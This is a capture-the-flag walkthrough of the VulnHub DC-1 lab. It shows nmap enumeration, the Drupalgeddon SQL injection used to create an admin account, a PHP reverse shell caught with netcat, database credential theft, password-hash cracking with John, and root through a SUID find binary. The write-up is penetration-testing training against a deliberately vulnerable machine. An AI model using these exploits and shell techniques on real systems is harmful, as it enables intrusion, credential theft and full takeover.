



# VulnHUb > DC1

**About Release**

* Name: DC: 1
* Date release: 28 Feb 2019
* Author: DCAU
* Series: DC
* Web page: http://www.five86.com/dc-1.html

**Description**

DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are **five flags** in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

Beginners may encounter challenges that they have never come across previously, but a Google search should be all that is required to obtain the information required to complete this challenge.

**Download**

* DC-1.zip (Size: 733 MB)
* Download: http://www.five86.com/downloads/DC-1.zip
* Download (Mirror): https://download.vulnhub.com/dc/DC-1.zip
* Download (Torrent): https://download.vulnhub.com/dc/DC-1.zip.torrent ([Magnet](magnet:?xt=urn:btih:F7BC571EE675EF3C64EAD03955092F67CC03925B&dn=DC-1.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

# Flag 1

## Services Enumeration

Scanning the machine with Nmap reveals 4 open ports:

~~~
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39831/tcp   status
|   100024  1          47572/tcp6  status
|   100024  1          53009/udp6  status
|_  100024  1          58652/udp   status
39831/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web Enumeration

Let's start with the HTTP port. Connecting to http://dc1.box directly tells us that we have to deal with the Drupal CMS. Scanning the target with `droopescan` confirms that Drupal version 7 is running.

~~~
kali@kali:/data/DC1$ droopescan scan drupal -u http://dc1.box
[+] Plugins found:                                                              
    ctools http://dc1.box/sites/all/modules/ctools/
        http://dc1.box/sites/all/modules/ctools/LICENSE.txt
        http://dc1.box/sites/all/modules/ctools/API.txt
    views http://dc1.box/sites/all/modules/views/
        http://dc1.box/sites/all/modules/views/README.txt
        http://dc1.box/sites/all/modules/views/LICENSE.txt
    profile http://dc1.box/modules/profile/
    php http://dc1.box/modules/php/
    image http://dc1.box/modules/image/

[+] Themes found:
    seven http://dc1.box/themes/seven/
    garland http://dc1.box/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://dc1.box/user/login

[+] Scan finished (0:08:02.738609 elapsed)
~~~

## Exploit (create a new admin)

Searching for exploits affecting Drupal version 7.* reveals many possible exploits:

~~~
kali@kali:/data/src$ searchsploit drupal 7
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Drupal 4.1/4.2 - Cross-Site Scripting                                              | php/webapps/22940.txt
Drupal 4.5.3 < 4.6.1 - Comments PHP Injection                                      | php/webapps/1088.pl
Drupal 4.7 - 'Attachment mod_mime' Remote Command Execution                        | php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML Injection                                      | php/webapps/27020.txt
Drupal 5.2 - PHP Zend Hash ation Vector                                            | php/webapps/4510.txt
Drupal 6.15 - Multiple Persistent Cross-Site Scripting Vulnerabilities             | php/webapps/11060.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                  | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                   | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)        | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)        | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)           | php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                             | php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution                                 | php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                            | php/webapps/3313.pl
Drupal < 5.1 - Post Comments Remote Command Execution                              | php/webapps/3312.pl
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                      | php/webapps/33706.txt
Drupal < 7.34 - Denial of Service                                                  | php/dos/35415.txt
Drupal < 7.34 - Denial of Service                                                  | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)           | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)        | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executio | php/webapps/44449.rb
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executio | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasp | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasp | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)   | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Exe | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                     | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                 | php/webapps/46459.py
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                  | php/webapps/44501.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scrip | php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                    | php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                      | php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting            | php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload     | php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam  | php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                  | php/remote/40130.rb
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

Let's try "Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)" (ID 34992):

~~~
kali@kali:/data/DC1$ searchsploit -m 34992
kali@kali:/data/DC1/files$ python 34992.py -t http://dc1.box -u myadmin -p mypassword

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: myadmin
[*] Pass: mypassword
[*] Url: http://dc1.box/?q=node&destination=node
~~~

A new admin user has been successfully created. Now, let's take advantage of this to create a reverse shell.

## Reverse shell

Login and from the admin panel, click on "Modules". Scroll down until you find the "PHP filters" module and enable it by checking the checkbox on the left.

Scroll down to the very bottom and click on the "Save configuration" button. Now, click on the "Permissions" link associated to the module.

Scroll to Filter > drupal-modules-phpfilter.png and grant the "administrator" profile. Scroll down to the very bottom and Save.

Back to the admin panel, click on "Content" and click on "Add content" > Basic page.

Give it a title (e.g. revshell), put the content of a PHP reverse shell in the body, select PHP code from the "text format" dropdown and click save.

Now, start a listener on your Kali machine (`rlwrap nc -nlvp 4444`) and from the Drupal web application, click on the "Preview" button at the bottom of the page.

You should now have a reverse shell:

~~~
kali@kali:/data/DC1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.156] 44408
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
 01:24:29 up  1:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@DC-1:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## Flag 1

The first flag is located in `/var/www/`:

~~~
www-data@DC-1:/var/www$ ls -la
ls -la
total 188
drwxr-xr-x  9 www-data www-data  4096 Feb 19  2019 .
drwxr-xr-x 12 root     root      4096 Feb 19  2019 ..
-rw-r--r--  1 www-data www-data   174 Nov 21  2013 .gitignore
-rw-r--r--  1 www-data www-data  5767 Nov 21  2013 .htaccess
-rw-r--r--  1 www-data www-data  1481 Nov 21  2013 COPYRIGHT.txt
-rw-r--r--  1 www-data www-data  1451 Nov 21  2013 INSTALL.mysql.txt
-rw-r--r--  1 www-data www-data  1874 Nov 21  2013 INSTALL.pgsql.txt
-rw-r--r--  1 www-data www-data  1298 Nov 21  2013 INSTALL.sqlite.txt
-rw-r--r--  1 www-data www-data 17861 Nov 21  2013 INSTALL.txt
-rwxr-xr-x  1 www-data www-data 18092 Nov  1  2013 LICENSE.txt
-rw-r--r--  1 www-data www-data  8191 Nov 21  2013 MAINTAINERS.txt
-rw-r--r--  1 www-data www-data  5376 Nov 21  2013 README.txt
-rw-r--r--  1 www-data www-data  9642 Nov 21  2013 UPGRADE.txt
-rw-r--r--  1 www-data www-data  6604 Nov 21  2013 authorize.php
-rw-r--r--  1 www-data www-data   720 Nov 21  2013 cron.php
-rw-r--r--  1 www-data www-data    52 Feb 19  2019 flag1.txt <---------- flag 1
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 includes
-rw-r--r--  1 www-data www-data   529 Nov 21  2013 index.php
-rw-r--r--  1 www-data www-data   703 Nov 21  2013 install.php
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 misc
drwxr-xr-x 42 www-data www-data  4096 Nov 21  2013 modules
drwxr-xr-x  5 www-data www-data  4096 Nov 21  2013 profiles
-rw-r--r--  1 www-data www-data  1561 Nov 21  2013 robots.txt
drwxr-xr-x  2 www-data www-data  4096 Nov 21  2013 scripts
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 sites
drwxr-xr-x  7 www-data www-data  4096 Nov 21  2013 themes
-rw-r--r--  1 www-data www-data 19941 Nov 21  2013 update.php
-rw-r--r--  1 www-data www-data  2178 Nov 21  2013 web.config
-rw-r--r--  1 www-data www-data   417 Nov 21  2013 xmlrpc.php
~~~

The first flag guides us by recommending to look for the configuration file. 

~~~
www-data@DC-1:/var/www$ cat flag1.txt
cat flag1.txt
Every good CMS needs a config file - and so do you.
~~~

# Flag 2 (Drupal configuration file)

Searching for "Drupal configuration file" on the Internet will tell us that configuration is usually located in `./sites/default/settings.php`. Accessing the file will reveal the second flag (see the comments), and will give us the connection details to the database:

~~~
www-data@DC-1:/var/www/sites/default$ cat settings.php
cat settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
~~~

# Flag 3

## Connect to the database

Let's connect to the database and dump the users table.

~~~
www-data@DC-1:/var/www/sites/all$ mysql -u dbuser -p
mysql -u dbuser -p
Enter password: R0ck3t

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5234
Server version: 5.5.60-0+deb7u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+
2 rows in set (0.00 sec)

mysql> use drupaldb
use drupaldb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> select name,pass from users;
select name,pass from users;
+---------+---------------------------------------------------------+
| name    | pass                                                    |
+---------+---------------------------------------------------------+
|         |                                                         |
| admin   | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred    | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
| test    | $S$DsVR8JPk6hASQb9WlYGVUyBqox7qAtxtWx3YNswcB.xb/tMOHzeY |
| myadmin | $S$DMtmBewP8Iq6dIpOscR8Z1RcLFp1clL9VcGInD6KAJNqu7NElHQG |
+---------+---------------------------------------------------------+
5 rows in set (0.01 sec)
~~~

## Crack the password hashes

Let's use John to crack the passwords:

~~~
kali@kali:/data/DC1/files$ cat hashes.txt 
admin:$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred:$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
kali@kali:/data/DC1/files$ /data/src/john/run/john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
MyPassword       (Fred)
53cr3t           (admin)
2g 0:01:45:55 DONE (2020-10-05 17:25) 0.000314g/s 352.6p/s 437.5c/s 437.5C/s 53cr3t5..539iron
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

## Connect as admin

Connect to http://dc1.box/ with `admin:53cr3t` and go to "Content". There is a post called `flag3`:

~~~
flag3

Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
~~~

# Flag 4

Back to our reverse shell, we continue the enumeration and find a user called `flag4` under the `/home` directory:

~~~
www-data@DC-1:/var/www/sites/all$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Feb 19  2019 .
drwxr-xr-x 23 root  root  4096 Feb 19  2019 ..
drwxr-xr-x  2 flag4 flag4 4096 Feb 19  2019 flag4
www-data@DC-1:/var/www/sites/all$ cd /home/flag4
cd /home/flag4
~~~

The fourth flag is located in this directory:

~~~
www-data@DC-1:/home/flag4$ ls -la
ls -la
total 28
drwxr-xr-x 2 flag4 flag4 4096 Feb 19  2019 .
drwxr-xr-x 3 root  root  4096 Feb 19  2019 ..
-rw------- 1 flag4 flag4   28 Feb 19  2019 .bash_history
-rw-r--r-- 1 flag4 flag4  220 Feb 19  2019 .bash_logout
-rw-r--r-- 1 flag4 flag4 3392 Feb 19  2019 .bashrc
-rw-r--r-- 1 flag4 flag4  675 Feb 19  2019 .profile
-rw-r--r-- 1 flag4 flag4  125 Feb 19  2019 flag4.txt
www-data@DC-1:/home/flag4$ cat flag4.txt
cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
~~~

# Final flag (root flag)

## SUID programs

Searching for files owned by root, and having the SUID bit set will reveal that `find` is part of the list:

~~~
www-data@DC-1:/$ find / -type f -user root  -perm -u=s 2>/dev/null
find / -type f -user root  -perm -u=s 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find <--------------- find owned by root with SUID bit set!
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
~~~

## Root flag

Let's take advantage of it to list files in the `/root` directory. We find the final flag:

~~~
www-data@DC-1:/$ find /root -type f 2>/dev/null
find /root -type f 2>/dev/null
/root/.profile
/root/.drush/drush.complete.sh
/root/.drush/drush.prompt.sh
/root/.drush/cache/download/https---updates.drupal.org-release-history-views-7.x
/root/.drush/cache/download/https---ftp.drupal.org-files-projects-views-7.x-3.20.tar.gz
/root/.drush/cache/download/https---updates.drupal.org-release-history-drupal-7.x
/root/.drush/cache/download/https---ftp.drupal.org-files-projects-ctools-7.x-1.15.tar.gz
/root/.drush/cache/download/https---updates.drupal.org-release-history-ctools-7.x
/root/.drush/cache/download/https---ftp.drupal.org-files-projects-drupal-7.24.tar.gz
/root/.drush/drushrc.php
/root/.drush/drush.bashrc
/root/thefinalflag.txt <------------ final flag (root flag)
/root/.bash_history
/root/.bashrc
/root/.aptitude/config
~~~

Now, let's read the root flag:

~~~
www-data@DC-1:/$ find /root -type f -name thefinalflag.txt -exec cat {} \;
find /root -type f -name thefinalflag.txt -exec cat {} \;
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
~~~

## Privilege escalation

We can even go further and get a privileged shell, using the following command:

~~~
www-data@DC-1:/var/www/sites/default$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-4.2# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
~~~
